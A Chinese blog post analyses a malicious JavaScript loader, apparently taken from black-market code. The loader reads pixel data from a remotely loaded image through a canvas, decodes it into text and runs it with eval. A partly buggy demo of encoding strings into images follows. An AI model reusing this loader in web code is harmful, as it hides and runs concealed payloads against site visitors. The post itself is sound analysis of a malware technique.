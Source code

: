 ```yaml
---
title: "利用 canvas 加载代码"
author: Neal
description: ""
tags: [canvas,前端开发,安全]
categories: [web security]
date: "2018-08-12"
---
```


前段时间获取到黑产的一些代码，不得不感叹黑产的代码是在写的是好得很，思路巧妙，环环相扣。不得不说，技术不好，黑产都做不了了。虽然分析了好多天，但是也只是一知半解。这里抽出一小部分来讲一下。二话不说，先上代码：

最初的代码是经过混淆的，代码经过整理如下：

```javascript
var createImgElement = function(urla, b) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    imgElement['crossOrigin'] = true;
    imgElement['onload'] = function() {
        canvasEle.width = this.width;
        canvasEle.height = this.height;
        var canvasContext = canvasEle.getContext('2d')
        canvasContext.drawImage(this, 0, 0, this.width, this.height);
        for (var canvasContext = canvasContext.getImageData(0, 0, this.width, this.height), 
        cancasDataLength = canvasContext.data.length, arr = [], i = 0;
            i < cancasDataLength;
            i += 4) {
            var code = canvasContext.data[i]
            var code1 = canvasContext.data[i + 1]
            var code2 = canvasContext.data[i + 2]
            canvasContext.data[i + 2].toString(16);
            1 == code1.length && (code1 = 0 + code1);
            1 == code2.length && (code2 = 0 + code2);
            0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)))
        }
        window.eval(arr.join(''));
        console.log(arr.join(''))
        b && b()
    }
    imgElement.src = urla
};
```

这段代码的主要目的是通过使用一个图片的连接，将这个图片加载到 canvas 中，再利用 canvas 去获取恶意代码并执行。通过图片去隐藏信息是一种常见的做法，这段就是通过 canvas 去执行图片中隐含的恶意代码。

这里涉及到一个 canvas 和图片之间的相互转化。下面提供两个相互转化的函数：

```javascript
var canvasToImg = fucntion(image) {
    var canvas = document.createElement('canvas');
    canvas.width = image.width;
    canvas.height = image.height;
    canvas.getContext('2d').drawImage(image, width, height);
    return canvas;
}

var imgToCanvas = function(canvas) {
    var image = new Image();
    image.src = canvas.toDataUrl('image/png');
    return image;
}
```

所以黑产也是通过将恶意代码放入到图片之中，从而以后可以通过 canvas 去读取恶意代码。下面写一个小的 demo 来复现这样一个简单的过程：

```javascript
var createImgByCode = function(codeStr, width, height) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    canvasEle.width = width;
    canvasEle.height = height;
    var canvasContext = canvasEle.getContext('2d');
    var data = new Array(4 * width * height);
    for (var i = 0; i < codeStr.length; i += 4) {
        var c = codeStr[i];
        var charCode = c.charCodeAt();
        var code = 0;
        var code1 = 16;
        var code2 = charCode - code1;
        data[i] = code;
        data[i + 1] = code1;
        data[i + 2] = code2;
        data[i + 3] = 255;
    }
    data = Uint8ClampedArray.from(data);
    var imgData = new ImageData(data, width, height);
    canvasContext.putImageData(imgData, 0, 0);
    imgElement.src = canvasEle.toDataURL("image/png");
    imgElement.width = width;
    imgElement.height = height;
    imgElement.crossOrigin = ' ';
    document.querySelector("#container").appendChild(imgElement);
}

var readCodeFromImg = function() {
    var img = document.querySelector('#container img');
    var width = 20;
    var height = 20;
    var canvas = document.createElement('canvas');
    canvas.width = width;
    canvas.height = height;
    var context = canvas.getContext('2d');
    context.drawImage(img, 0, 0, width, height);
    for (var context = context.getImageData(0, 0, width, height), 
        cancasDataLength = context.data.length, arr = [], i = 0;
        i < cancasDataLength;
        i += 4) {
        var code = context.data[i];
        var code1 = context.data[i + 1];
        var code2 = context.data[i + 2];
        1 == code1.length && (code1 = 0 + code1);
        1 == code2.length && (code2 = 0 + code2);
        0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)))
    }
    console.log(arr.join(''));
}

createImgByCode("14324dfjkkdf432473724afjdfshjkdfkl53453453425dlkfklsdf", 20, 20);
readCodeFromImg();
```

`createImgByCode` 函数可以将任意字符串转化为一个图片，接着通过 canvas 去加载代码。不过这里面有一个问题，就是通过`createImgByCode` 函数生成的图片是一个 base64 图片，不能够直接被加载，这个图片必须被存储为 png 格式才能够通过另一个函数去加载代码。

以上。

欢迎搜索微信号 mad_coder 或者扫描二维码关注公众号：

![9tMvlT.jpg](https://s1.ax1x.com/2018/02/17/9tMvlT.jpg)

